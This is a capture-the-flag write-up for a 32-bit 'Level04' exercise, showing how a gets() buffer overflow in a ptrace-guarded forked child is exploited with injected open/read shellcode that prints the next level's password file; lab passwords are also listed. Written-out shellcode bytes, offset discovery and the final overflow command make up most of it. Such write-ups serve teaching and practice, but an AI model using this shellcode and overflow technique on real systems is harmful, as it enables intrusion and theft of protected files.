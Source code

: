 # Level04 - 32 bits - Can't use execve

## Local script usage

Requirements:

- `gdb-peda`
- `getenv32`

You can setup requirements with the script: [scripts/installUtils.sh](../../scripts/installUtils.sh)

```shell
./scripts/installUtils.sh
./level04/Ressources/main.sh
```

## Passwords and token

|         |                                            |
| ------- | ------------------------------------------ |
| level04 | `kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf` |
| level05 | `3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN` |

## Steps to resolve on VM

See our assembly interpretation in [source file](../source.c)

So first of all, we notice that we have a fork and then we execute `gets` wich is vulnerable. After trying a buffer overflow to execute a shellcode with `execve("/bin/sh")` the program terminates with the message `no exec() for you`.

Indeed after some reflexions, we notice that after the fork, the parent process doesn't allow the child process to execute `execve` command :
`execve` command called by child process sends a `SIGTRAP` signal, which lets the control back to the parent process who kills the child procress and stops the program.

So the exploit would be to give it something else than `execve("/bin/sh")` => why not trying a shellcode who read/open the file `/home/users/level05/.pass` ?

First the offset :

```shell
pattern create 200 input
run < <(cat /tmp/input)
  Invalid $PC address: 0x71414154
  Stopped reason: SIGSEGV
  0x71414154 in ?? ()

pattern search
  EIP+0 found at offset: 156
```

Then the shellcode exported in an environment variable :

```shell
export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass'"`
```
So the SHELLCODE = 255 NOPs + shellcode to open/read + the path  
Now we need this env variable's address and will add 100 to be sure to land into the NOPs of the shellcode :

```shell
./getenv32 SHELLCODE ~/level04
0xffffd79b

(in gdb)
p /x 0xffffd7b9 + 100
$2 = 0xffffd7ff
```

And finally use the exploit :

```shell
(python -c 'print("A" * 156 + "\xff\xd7\xff\xff")') | ~/level04
  Give me some shellcode, k
  3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
  child is exiting...
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)
- ['Open/Read + pathname' shellcode](http://shell-storm.org/shellcode/files/shellcode-73.php)
- [FR - Ecrivez votre premier shellcode en asm x86 ! (Exemple 2 : execve(/bin/sh))](https://zestedesavoir.com/articles/158/ecrivez-votre-premier-shellcode-en-asm-x86/#2-exemple-2-execve-bin-sh)

### C

- [PTRACE_TRACEME](http://manpagesfr.free.fr/man/man2/ptrace.2.html)
- [ret2libc](https://beta.hackndo.com/retour-a-la-libc/)

#### Questions

- [how does ptrace catch fork's system call?](https://stackoverflow.com/questions/20440118/how-does-ptrace-catch-forks-system-call)

#### Man

- [Man fork](https://linux.die.net/man/3/fork)
- [Man gets](https://linux.die.net/man/3/gets)
- [Man kill](https://linux.die.net/man/3/kill)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man prctl](https://linux.die.net/man/2/prctl)
- [Man ptrace](https://linux.die.net/man/2/ptrace)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man wait](https://linux.die.net/man/2/wait)